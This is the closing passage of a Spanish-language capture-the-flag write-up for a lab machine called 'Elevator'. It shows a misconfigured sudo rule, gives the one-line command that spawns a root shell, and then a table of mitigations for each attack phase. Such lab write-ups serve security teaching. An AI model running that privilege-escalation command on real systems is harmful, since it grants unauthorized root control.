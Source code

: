 Finalmente, encontramos la joya de la corona:

```bash
sudo -l 
Matching Defaults entries for scooby on c12adce9f850:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User scooby may run the following commands on c12adce9f850:
    (root) NOPASSWD: /usr/bin/sudo
```

Esto significa que el usuario `scooby` **puede ejecutar `sudo` como root sin contraseña**. En otras palabras, puede hacer absolutamente lo que quiera, incluyendo ejecutar una shell:

```bash
sudo -u root /usr/bin/sudo sudo /bin/sh
```

Desglose:

- `sudo -u root`: Ejecuta el siguiente comando como root.
- `/usr/bin/sudo sudo /bin/sh`: Usa `sudo` para abrir una shell (`/bin/sh`) como root.

Resultado:

<img width="486" height="124" alt="Image" src="https://github.com/user-attachments/assets/2efbf99f-7a3b-4826-be34-941d3f5f9c62" />


### Riesgo total

Este es el escenario más crítico. La presencia de una cadena de usuarios con sudo mal configurado y binarios peligrosos ha permitido **una escalada progresiva** hasta el control total del sistema. Es un caso claro de **escalera de privilegios mal protegida**, algo que en producción puede ser devastador si se encuentra en manos equivocadas.


---



### **Cuadro de Mitigación de Vulnerabilidades - Máquina Elevator**

| **Fase de Ataque**       | **Vulnerabilidad Explotada**                          | **Medidas de Mitigación**                                                                 |
|--------------------------|------------------------------------------------------|------------------------------------------------------------------------------------------|
| **Reconocimiento**       | Puerto 80 expuesto (HTTP)                            | - Restringir acceso con firewalls (iptables/nftables).<br>- Usar HTTPS en lugar de HTTP. |
| **Enumeración Web**      | Directorios ocultos accesibles (`/themes/uploads/`)  | - Deshabilitar listado de directorios en Apache (`Options -Indexes`).<br>- Eliminar archivos y directorios no necesarios. |
| **Subida de Archivos**   | Validación insuficiente en `upload.php` (extensión `.php.jpg`) | - Validar tipo MIME y contenido (no solo extensión).<br>- Renombrar archivos subidos (ej: `hash_random.file`).<br>- Almacenar archivos fuera del directorio web. |
| **RCE (Reverse Shell)**  | Ejecución de PHP en archivos maliciosos              | - Deshabilitar ejecución de PHP en directorios de subida (`php_admin_flag engine off`).<br>- Usar WAF (ModSecurity) para bloquear payloads maliciosos. |
| **Escalada Horizontal**  | Configuración insegura de `sudo` (binarios como `env`, `ash`, `ruby`, `lua`, `gcc`) | - Eliminar permisos `NOPASSWD` para binarios peligrosos.<br>- Usar `sudo` solo para comandos específicos (no shells o lenguajes interpretados).<br>- Implementar RBAC (control de acceso basado en roles). |
| **Escalada a Root**      | `sudo` sin contraseña para usuario `scooby`          | - Eliminar privilegios innecesarios (`visudo`).<br>- Requerir contraseña para `sudo`.<br>- Usar `sudo` con `secure_path`. |

---